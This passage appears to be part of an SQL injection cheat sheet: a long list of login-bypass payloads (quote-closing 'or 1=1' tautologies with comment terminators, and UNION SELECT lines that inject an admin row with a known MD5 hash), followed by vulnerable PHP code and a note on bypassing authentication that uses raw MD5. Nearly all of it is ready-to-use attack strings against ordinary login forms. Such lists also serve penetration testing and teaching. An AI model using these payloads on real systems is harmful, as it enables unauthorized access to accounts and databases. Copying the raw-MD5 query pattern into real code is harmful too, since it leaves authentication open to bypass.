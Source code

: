 ```sql
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## Authentication Bypass (Raw MD5 SHA1)

When a raw md5 is used, the pass will be queried as a simple string, not a hexstring.

```php
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```

Allowing an attacker to craft a string with a `true` statement such as `' or 'SOMETHING`
